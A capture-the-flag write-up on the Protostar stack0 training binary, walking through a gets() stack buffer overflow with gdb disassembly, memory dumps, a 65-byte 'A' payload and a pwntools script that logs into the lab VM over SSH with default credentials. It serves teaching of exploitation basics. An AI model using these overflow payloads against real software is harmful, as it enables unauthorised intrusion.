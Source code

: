 ```yaml
---
title: Protostar - Stack0
description: My writeup on stack0 challenge.
categories:
 - binary exploitation
tags: binary exploitation, protostar
---
```


You can find the protostar there > [Protostar](https://exploit-exercises.lains.space/protostar/){:target="_blank"}

We have the source code of the binary :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

We have a variable called `buffer` and has 64bytes buffer. Also we have another variable called `modified` and has `0` value.

Then we have the vulnerable `gets` function. 

`gets` doesn't check while getting bytes.

Then we have an if statement that checks if the value of `modified` is not `0`. So we have to change the value of that variable.

Let's fire up `gdb`.

```bash
user@protostar:/opt/protostar/bin$ gdb -q ./stack0
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
(gdb)
```

We can see there the vulnerable `gets()` function : 
```bash
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```

Let's add a `breakpoint` after the `gets()` function & execute it.

```bash
(gdb) break *0x08048411
Breakpoint 1 at 0x8048411: file stack0/stack0.c, line 13.
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb)
```

Let's check now the `ESP` register.

```bash
(gdb) x/40x $esp
0xbffff750:     0xbffff76c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff760:     0xb7fd7ff4      0xb7ec6165      0xbffff778      0x41414141
0xbffff770:     0x41414141      0x00414141      0xbffff788      0x080482e8
0xbffff780:     0xb7ff1040      0x08049620      0xbffff7b8      0x08048469
0xbffff790:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffff7b8
0xbffff7a0:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
0xbffff7b0:     0x08048450      0x00000000      0xbffff838      0xb7eadc76
0xbffff7c0:     0x00000001      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x0804824b
0xbffff7e0:     0x00000001      0xbffff820      0xb7ff0626      0xb7fffab0
(gdb)
```

We can see this `0x41414141` digits in memory. `0x41 = A`

```python
>>> "41".decode("hex")
'A'
```

Also we can see `0x00000000` value, that's probably the `modified = 0` variable.

Now let's input more than 64bytes.

```bash
(gdb) shell python -c 'print "A" * 65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) r
Starting program: /opt/protostar/bin/stack0

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Breakpoint 1, main (argc=1, argv=0xbffff864) at stack0/stack0.c:13
13      stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) x/40x $esp
0xbffff750:     0xbffff76c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff760:     0xb7fd7ff4      0xb7ec6165      0xbffff778      0x41414141
0xbffff770:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff780:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff790:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7a0:     0x41414141      0x41414141      0x41414141      0x00000041
0xbffff7b0:     0x08048450      0x00000000      0xbffff838      0xb7eadc76
0xbffff7c0:     0x00000001      0xbffff864      0xbffff86c      0xb7fe1848
0xbffff7d0:     0xbffff820      0xffffffff      0xb7ffeff4      0x0804824b
0xbffff7e0:     0x00000001      0xbffff820      0xb7ff0626      0xb7fffab0
(gdb) c
Continuing.
you have changed the 'modified' variable

Program exited with code 051.
(gdb)
```

We can see memory is now full of our `0x41 = A` and the `0x00000000` value, now is overwritten with single 0x41 value, that means we got the flag.

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 65' | ./stack0
you have changed the 'modified' variable
```

Let's write an exploit now with `pwntools`.

```python
from pwn import *

shell = ssh('user', '$private_ip', password='user', port=22)
sh = shell.run('sh')
log.info('sending payload..')
sh.sendline('/opt/protostar/bin/stack0')
#python -c 'print "A" * 65'
sh.sendline('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
log.success(sh.recvline())
shell.close()
```

```bash
$ python3 exp.py 
[+] Connecting to $private_ip on port 22: Done
[*] user@$private_ip:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: 'sh': Done
[*] sending payload..
[+] b"$ you have changed the 'modified' variable\n"
[*] Closed connection to '$private_ip
```
=
